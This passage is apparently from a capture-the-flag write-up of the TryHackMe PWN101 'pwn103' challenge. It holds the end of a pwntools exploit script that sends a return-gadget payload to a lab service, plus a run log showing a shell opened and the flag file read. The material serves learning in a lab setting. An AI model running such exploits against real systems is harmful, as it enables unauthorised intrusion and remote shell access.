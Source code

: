 ```py

# adding a return gadget in between to fix movaps issue
# Thanks to Razvi for helping me to find this

write("payload.txt",payload)

print(io.recv().decode())
io.sendline('3')
print(io.recv().decode())
io.sendlineafter(b"[pwner]:",payload)
print(io.recv().decode())

io.interactive()

```

```bash
# Running the payload

python3 get_shell.py REMOTE 10.10.145.112 9003
[+] Opening connection to 10.10.145.112 on port 9003: Done
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⡟⠁⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠈⢹⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠄⢠⣴⣾⣵⣶⣶⣾⣿⣦⡄⠄⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⢀⣾⣿⣿⢿⣿⣿⣿⣿⣿⣿⡄⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⢸⣿⣿⣧⣀⣼⣿⣄⣠⣿⣿⣿⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠘⠻⢷⡯⠛⠛⠛⠛⢫⣿⠟⠛⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⢸⣿⣿⣿
⣿⣿⣿⣧⡀⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⢡⣀⠄⠄⢸⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣶⣆⣸⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿

  [THM Discord Server]

➖➖➖➖➖➖➖➖➖➖➖
1) 📢 Announcements
2) 📜 Rules
3) 🗣  General
4) 🏠 rooms discussion
5) 🤖 Bot commands
➖➖➖➖➖➖➖➖➖➖➖
⌨️  Choose the channel: 
/home/kali/TryHackMe/PWN101/chall3/get_shell.py:47: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline('3')

🗣  General:

 
Try harder!!! 💪


👮  Admins only:

Welcome admin 😄

[*] Switching to interactive mode
$ ls
flag.txt
pwn103
pwn103.c
$ cat flag.txt
THM{fake_flag}   # get you own flag
```